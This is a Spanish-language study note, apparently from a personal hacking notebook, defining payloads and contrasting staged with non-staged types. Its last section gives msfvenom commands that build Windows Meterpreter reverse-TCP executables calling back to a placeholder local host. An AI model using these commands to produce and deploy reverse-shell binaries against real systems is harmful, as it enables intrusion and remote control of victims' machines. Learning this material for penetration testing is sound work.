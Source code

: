 # Payload

***

* Tags: #exploiting #hacking

***

## Definición

> Un **payload** es un código malicioso que se inserta en un sistema o software para realizar acciones dañinas o no autorizadas. Es el componente principal de un ataque y puede incluir funcionalidades como toma de control, robo de datos o instalación de puertas traseras.

## Tipos

Existen dos tipos de **payloads**, dependiendo de si está compuesto por una única etapa o si está compuesta por múltiples.

### Payload Staged

> Este tipo de **payload** se divide en dos o más etapas, donde la primera de ellas se encarga de establecer la conexión con la máquina comprometida. Una vez establecida la conexión, a partir de la segunda etapa, el atacante envía la carga útil real del ataque. Este tipo de **payloads** se utiliza para sortear medidas de seguridad adicionales, ya que la carga útil no se envía hasta que exista una conexión segura. Este tipo de payloads pueden ser personalizados de manera dinámica a través de \[\[Metasploit]].

### Payload Non-Staged

> Esste tipo de **payload** se envía como una única entidad solo dispone de una sola etapa. La carga útil completa se envía a la máquina comprometida en un solo paquete y se ejecuta inmediatamente después de ser recibida. Este tipo de **payloads** son más fácil de detectar por los sistemas de seguridad, ya que se envía el código malicioso de una sola vez.

## Creación de payloads

Para crear un **payload** utilizando la herramienta \[\[Metasploit]], podemos ejecutar el siguiente comando en bash:

```bash
msfvenom -p <tipo de payload> --platform <plataforma> -a <arquitectura> LHOST=<ip_local> LPORT=<puerto_local> -f <file> -o <output>
```

Para conseguir un **payload staged** o **non-staged para** windows, que devuelva una \[\[Reverse shell]], podemos ejecutar lo siguiente:

```bash
#payload staged
msfvenom -p windows/x64/meterpreter/reverse_tcp --platform windows -a x64 LHOST=<ip_local> LPORT=<puerto_local> -f exe -o reverse.exe
#payload non-staged
msfvenom -p windows/x64/meterpreter_reverse_tcp --platform windows -a x64 LHOST=<ip_local> LPORT=<puerto_local> -f exe -o reverse.exe
```

La diferencia en la búsqueda consiste en el tipo de **payload**, cambiar una "/" por un "\_".
